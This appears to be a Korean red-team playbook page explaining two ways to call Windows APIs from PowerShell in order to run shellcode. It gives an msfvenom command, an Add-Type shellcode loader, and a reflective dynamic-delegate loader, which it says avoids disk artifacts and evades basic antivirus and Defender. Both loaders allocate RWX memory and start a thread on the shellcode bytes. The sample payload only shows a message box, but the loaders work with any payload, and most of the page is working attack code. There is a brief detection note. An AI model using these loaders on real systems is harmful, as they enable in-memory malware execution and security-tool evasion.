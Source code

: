 # 윈도우 API 실행

파워쉘에서는 윈도우 API를 실행할 수 있는 총 세 가지 방법이 있다.

* Add-Type
* .NET 어셈블리가 사용하는 윈도우 API를 찾아 실행하는 방법
* 윈도우 API의 메모리상 주소를 알아내고, 함수 포인터를 만든 뒤, 다이내믹 Assembly, Module, Type, Method 과 Delegate를 이용해 이 함수 포인터로 윈도우 API를 실행하는 방법

이 페이지에서는 1번과 3번에 대해서 알아본다.

### Add-Type

Add-Type 은 마이크로소프트사에서 공식적으로 지원하는 파워쉘에서 윈도우 API를 사용하는 방법 중 하나다. 더 정확하게 말하자면 파워쉘에서 C# 클래스를 작성한 뒤 메모리상에서 컴파일 하고 실행하는 함수 중 하나다.

먼저 PoC 쉘코드로 사용할 쉘코드를 msfvenom을 이용해 제작한다.

```
msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f ps1
```

다음은 파워쉘에서 윈도우 API를 이용해 MessageBox 쉘코드를 실행하는 PoC다.

<details>

<summary>Invoke-Addtype.ps1</summary>

```powershell
$csharpCode = @"

using System;
using System.Runtime.InteropServices;

public class winAPIClass { 

    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $csharpCode

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0

# Page commit | reserve, RWX 
$pAlloc = [winAPIClass]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [winAPIClass]::CreateThread(0,0,$pAlloc,0,0,0)        
```

</details>

![](<../../.gitbook/assets/image (61).png>)

#### 대응 방안

Add-Type이 실행될 때 C# 코드가 메모리상에서 컴파일 된다고 위에서 얘기했었다. 더 자세하게 얘기하자면 `csc.exe` 를 이용해 메모리상에서 C# 코드를 컴파일 하지만, 그 와중에 임시 파일을 디스크위에 작성한다.

![](<../../.gitbook/assets/image (137).png>)

![](<../../.gitbook/assets/image (48).png>)

2022년도 기준 `Add-Type` 를 이용한 파워쉘에서의 C# 코드 및 윈도우 API 실행은 유명한 TTP라 왠만한 AV/EDR 솔루션들 및 윈도우 디펜더는 이를 기본적으로 막는다.

### Dynamic Method

다음 코드들은 다음 두 개의 레퍼런스 - [Matt Graeber](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/), [mez0](https://mez0.cc/posts/cobaltstrike-powershell-exec/), [DepthSecurity](https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs) 라는 분들의 코드 참고했다. 먼저 `LookUpFunction` 이라는 함수로 현 .NET AppDomain에 있는 어셈블리들 중 `System.dll` 닷넷 어셈블리를 찾고, 그 중 `UnsafeNativeMethod` 를 찾는다. 그 뒤, `GetMethods()` 함수를 통해 닷넷 어셈블리에서 `GetProcAddress` 와 `GetModuleHandle` 윈도우API를 찾는다. 그 뒤, 이들을 이용해 파라미터로 받아온 ModuleName과 FunctionName을 찾는다.

```powershell
# Unmanaged DLL 이름과 winAPI함수 이름을 입력값으로 받고, 함수 포인터를 반환함. 
function LookUpFunc {
    Param($module, $funcName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}
```

결국 `$fPointer = LookUpfunction Kernel32.dll VirtualAlloc` 과 같은 파워쉘 코드를 이용하면 `VirtualAlloc` 의 위치를 가르키는 함수 포인터를 생성할 수 있게 된다.

함수 포인터가 있다고 해서 그것을 무작정 사용할 수는 없다. 함수 포인터가 가르키는 메모리는 어떻게 읽어야하는가? 몇개의 argument 가 있고, 어떤 타입의 argument 들이 있는가? 리턴하는 데이터 타입은? 에 대한 설명을 기반으로 함수 포인터를 실행해야 하는데, C#과 파워쉘에서는 이를 `Delegate` 을 통해서 해결한다.

다음은 파워쉘에서 Delegate 을 만들고 그것을 기반으로 위에서 받아온 함수 포인터를 실행하는 코드다. 다이내믹 어셈블리, 모듈, 타입, 프로토타입, 매써드 등을 만든 뒤 DelegateType을 반환한다.

```powershell
# 함수 시그니쳐와 반환값을 입력값으로 받고, DelegateType을 반환함. 
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}
```

이 `getDelegateType` 함수는 다음과 같이 쓴다.

```powershell
$pVirtualAlloc = LookUpFunc "kernel32.dll" "VirtualAlloc" 
$dtVirtualAlloc = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($pVitualAlloc, $dtVirtualAlloc)
```

이를 기반으로 위 `Add-Type` 예시에서 만들었던 메시지 박스 쉘코드를 실행하는 파워쉘 페이로드를 만들면 다음과 같다.

```powershell
# All credit to https://mez0.cc/posts/cobaltstrike-powershell-exec/
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

# All credit to https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0
$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

위 Dynamic Method 방법의 경우 C# 이 컴파일이 되는 것이 아니기 때문에 디스크상의 임시 파일이 쓰여질 일도 없다. 따라서 기본적인 AV나 디펜더를 우회하는데 좀 더 유리하다.

### 레퍼런스

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-2/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/" %}

{% embed url="https://mez0.cc/posts/cobaltstrike-powershell-exec/" %}

{% embed url="https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs" %}
